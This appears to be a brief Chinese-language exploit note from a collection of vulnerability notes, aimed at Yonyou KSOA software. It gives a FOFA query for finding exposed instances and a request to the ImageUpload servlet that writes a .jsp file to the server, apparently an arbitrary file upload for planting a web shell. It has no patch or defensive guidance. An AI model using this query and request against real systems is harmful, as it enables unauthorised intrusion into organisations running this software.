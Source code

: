 ## 资产收集：
fofa：app="用友-时空KSOA"

## 利用方法：
`/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=gmtxj.jsp`